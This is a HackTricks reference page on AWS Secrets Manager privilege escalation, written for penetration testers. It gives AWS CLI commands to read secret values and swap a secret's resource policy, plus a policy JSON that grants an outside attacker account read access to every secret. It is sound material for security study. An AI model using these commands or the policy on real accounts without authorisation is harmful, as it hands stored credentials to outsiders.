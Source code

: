 # AWS - Secrets Manager Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Secrets Manager

For more info about secrets manager check:

{% content-ref url="../aws-services/aws-secrets-manager-enum.md" %}
[aws-secrets-manager-enum.md](../aws-services/aws-secrets-manager-enum.md)
{% endcontent-ref %}

### `secretsmanager:GetSecretValue`

An attacker with this permission can get the **saved value inside a secret** in AWS **Secretsmanager**.

```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```

**Potential Impact:** Access high sensitive data inside AWS secrets manager service.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

With the previous permissions it's possible to **give access to other principals/accounts (even external)** to access the **secret**. Note that in order to **read secrets encrypted** with a KMS key, the user also needs to have **access over the KMS key** (more info in the [KMS Enum page](../aws-services/aws-kms-enum.md)).

```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```

policy.json:

```json
{
  "Version" : "2012-10-17",
  "Statement" : [ {
    "Effect" : "Allow",
    "Principal" : {
      "AWS" : "arn:aws:iam::<attackers_account>:root"
    },
    "Action" : "secretsmanager:GetSecretValue",
    "Resource" : "*"
  } ]
}
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
